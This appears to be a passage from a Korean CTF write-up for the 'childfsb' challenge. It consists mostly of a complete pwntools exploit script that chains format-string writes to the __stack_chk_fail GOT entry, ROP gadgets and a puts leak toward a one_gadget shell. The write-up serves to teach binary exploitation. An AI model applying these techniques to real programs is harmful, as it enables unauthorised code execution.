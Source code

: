         pop이 6개 진행되고 one_gadet이 정상적으로 호출될 것이다





### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    #p=remote("ctf.j0n9hyun.xyz",3037)
    p=process("./childfsb",aslr="False")
    e=ELF("./childfsb")
    gdb.attach(p,'code\nb *0x7a7+$code\n')
    
    libc=ELF("./libc.so.6")
    ppppppr=0x40082A
    pppr=0x40082c
    ppr=0x400831
    pr=0x400833
    stack_chk_got=e.got['__stack_chk_fail']
    puts_got=e.got['puts']
    puts_plt=e.plt['puts']
    main=0x40075F
    main_2=0x400760
    
    payload = "%4196192c%8$ln"+"AA"
    payload += p64(stack_chk_got)
    payload += "A"*(0x19-len(payload))
    p.recvuntil("hello\n")
    pause()
    p.send(payload)
    
    
    payload2 = p64(0x4005b0)
    payload2 += p64(main)
    payload2 += "A"*(0x19-len(payload2))
    pause()
    p.sendafter("hello\n",payload2)
    
    payload3 = p64(pr)
    payload3 += p64(puts_got)
    payload3 += p64(ppr)
    payload3 += "A"*(0x19-len(payload3))
    #pause()
    p.sendafter("hello\n",payload3)
    
    
    payload4 = "%4196394c%8$ln"+"AA"
    payload4 += p64(stack_chk_got)
    payload4 += "A"*(0x19-len(payload4))
    p.sendafter("hello\n",payload4)
    